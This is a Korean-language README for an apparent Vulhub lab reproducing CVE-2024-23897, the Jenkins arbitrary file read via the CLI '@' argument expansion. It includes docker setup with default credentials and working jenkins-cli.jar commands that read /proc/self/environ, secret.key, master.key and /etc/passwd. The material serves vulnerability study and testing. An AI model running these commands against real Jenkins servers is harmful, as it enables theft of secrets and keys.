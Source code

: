 # CLI를 통한 Jenkins 임의 파일 읽기(CVE-2024-23897)

[중국어버전(Chinese version)](README.zh-cn.md)

Jenkins는 오픈소스 자동화 서버입니다.

Jenkins는 CLI 명령을 처리할 때 args4j 라이브러리를 사용하여 Jenkins 컨트롤러에서 명령 인수와 옵션을 구문 분석합니다. 이 명령 구문 분석기는 인수의 @ 문자 뒤에 오는 파일 경로를 파일 내용으로 대체하는 기능(expandAtFiles)을 가지고 있으며, 이를 통해 공격자는 Jenkins 서버에서 임의 파일을 읽을 수 있습니다.

이 취약점은 Jenkins 2.441 이전 버전에 영향을 미칩니다.


참고:

- <https://www.jenkins.io/security/advisory/2024-01-24/#SECURITY-3314>
- <https://mp.weixin.qq.com/s/2a4NXRkrXBDhcL9gZ3XQyw>

## 취약점 발생 환경

Jenkins 서버 2.441을 시작하려면 다음 명령을 실행하세요.

```
docker compose up -d
```

서버가 시작된 후 `http://your-ip:8080/` 을 통해 Jenkins 서버에 액세스할 수 있습니다. 기본 관리자의 사용자 이름과 비밀번호는 `admin`과 `vulhub` 입니다.


## 취약점 공격(익스플로잇)

먼저 `http://localhost:8080/jnlpJars/jenkins-cli.jar` 을 통해 명령줄 클라이언트 `jenkins-cli.jar` 를 다운로드해야 합니다.

`/proc/self/environ` 파일을 읽어 Jenkins 기본 디렉터리인 `JENKINS_HOME=/var/jenkins_home` 을 가져옵니다.

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/proc/self/environ"
```

(사진1)


이 명령을 사용하면 `secrets.key` 또는 `master.key` 와 같은 민감한 파일을 익명으로 검색할 수 있습니다(명령줄에서 오류가 발생하면 파일의 첫 번째 줄만 읽을 수 있습니다).

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/var/jenkins_home/secret.key"
```

(사진2)

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/var/jenkins_home/secrets/master.key"
```

(사진3)

"익명 읽기 액세스 허용"이 켜져 있으므로 전체 콘텐츠도 읽을 수 있습니다. 파일:

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http connect-node "@/etc/passwd"
```

![](4.png)
